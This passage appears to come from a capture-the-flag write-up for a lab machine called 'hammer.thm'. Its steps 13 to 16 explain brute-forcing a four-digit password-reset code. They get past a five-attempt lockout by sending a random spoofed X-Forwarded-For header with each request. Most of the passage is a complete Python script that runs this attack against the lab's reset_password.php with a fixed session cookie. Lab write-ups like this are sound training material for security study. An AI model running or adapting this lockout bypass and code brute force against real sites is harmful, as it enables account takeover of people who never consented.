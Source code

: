 13. With the new list we can try to reset password for tester user and brute force the requested digit code protection in the specific timeframe
14. Here we have two problems: there is a brute force mechanism in place that will block you after 5 tries on each PHPSESSID and you only have 180 sec (as per script in the page) to brute force
15. After a couple of tries the brute force mechanism I found can be bypassed using `X-Forwarded-For` header with a different value for each request
16. I wrote a Python script to brute force the code protection":
	
```python
import sys
import requests
import random

def generate_random_ip():
    # Generate a random IP address in the range of valid public IPs
    return f"{random.randint(1, 255)}.{random.randint(0, 255)}.{random.randint(0, 255)}.{random.randint(0, 255)}"

def send_post_request(url, code):
    # Adding the random X-Forwarded-For header
    headers = {
        'X-Forwarded-For': generate_random_ip(),
        'User-Agent': 'Mozilla/5.0',  # Optional, to emulate a browser request
        'Cookie': 'PHPSESSID=q62hrhvdff0m1q24t3ps21n4vq',
        'Cache-Control': 'max-age=0'
    }

    data = {
        'recovery_code': code,
        's':'100000'
    }
    
    # Sending the POST request with headers and data
    response = requests.post(url, data=data, headers=headers)
    return response

def main():
    if len(sys.argv) != 2:
        print("Usage: python script.py <filename>")
        sys.exit(1)

    filename = sys.argv[1]
    url = "http://hammer.thm:1337/reset_password.php"

    try:
        with open(filename, 'r') as file:
            for line in file:
                code = line.strip()
                if len(code) != 4 or not code.isdigit():
                    print(f"Invalid code format: {code}")
                    continue

                # Send the request
                response = send_post_request(url, code)

                # Check if the response indicates a redirect (302)
                if not "Invalid or expired recovery code" in response.text:
                    print(f"Success! The correct code is: {code}")
                    break
                else:
                    print(f"Attempt with code {code} failed, status code: {response.status_code}")

    except FileNotFoundError:
        print(f"File {filename} not found!")
```
